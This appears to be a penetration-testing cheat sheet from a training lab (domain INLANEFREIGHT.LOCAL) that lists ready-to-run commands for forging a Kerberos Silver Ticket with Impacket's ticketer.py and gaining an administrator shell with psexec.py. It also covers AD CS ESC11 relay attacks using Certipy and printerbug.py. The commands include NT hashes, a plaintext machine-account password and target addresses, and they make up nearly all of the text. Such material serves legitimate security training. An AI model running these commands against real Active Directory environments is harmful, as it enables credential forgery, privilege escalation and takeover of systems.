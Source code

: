 
## Create a Silver Ticket

| `Command` | `Description` |
| --- | --- |
| `lookupsid.py 'INLANEFREIGHT.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460` | Obtain the Domain SID with lookupsid.py |
| `ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain inlanefreight.local -spn cifs/ws01.inlanefreight.local Administrator` | Use ticketer.py to Forge a Silver Ticket as Administrator |
| `KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.inlanefreight.local` | Use psexec.py to Gain an Interactive Shell Session |

---

## ESC11 Attacks Targeting AD CS with Certipy

| `Command` | `Description` |
| --- | --- |
| `certipy relay -target "http://172.16.117.3" -template Machine` | Perform AD CS Relay Attacks to a Machine |
| `python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30` | Coerce SMB NTLM Authentication using printerbug.py |
| `certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3` | Certipy authentication with certificate |
| `certipy relay -target "rpc://172.16.117.3" -ca "INLANEFREIGHT-DC01-CA"` | ESC11 Attack |